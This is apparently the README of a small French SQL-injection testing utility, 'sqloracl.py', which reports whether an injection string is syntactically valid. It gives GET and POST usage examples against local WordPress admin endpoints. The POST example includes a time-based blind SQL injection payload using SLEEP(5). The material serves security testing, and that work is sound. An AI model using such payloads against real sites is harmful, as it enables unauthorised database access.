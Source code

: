 # oracleSQL
pour PFGimenez/poirot
## Utilisation
retourne 0 si la chaine de caractère est syntaxiquement valide, 1 sinon
#### GET
```
python sqloracl.py [url](string) GET [payload](dict /!\ clés et valeurs entre SIMPLES quotes) [param](string) [injtext](string /!\ entre DOUBLES quotes)
```
exemple :
```
python sqloracl.py http://localhost/injections/wordp/wp-admin/wp-admin/admin.php GET {'action':'dt_duplicate_post_as_draft','post':''} post ""
```
#### POST
```
python sqloracl.py [url](string) GET [payload](dict /!\ clés et valeurs entre SIMPLES quotes) [param](string) [injtext](string /!\ entre DOUBLES quotes)
```
exemple :
```
python sqloracl.py http://localhost/injections/wordp/wp-admin/admin-ajax.php POST {'action':'spAjaxResults','pollid':'2'} pollid " AND (SELECT 1158 FROM (SELECT(SLEEP(5)))eipW)"
```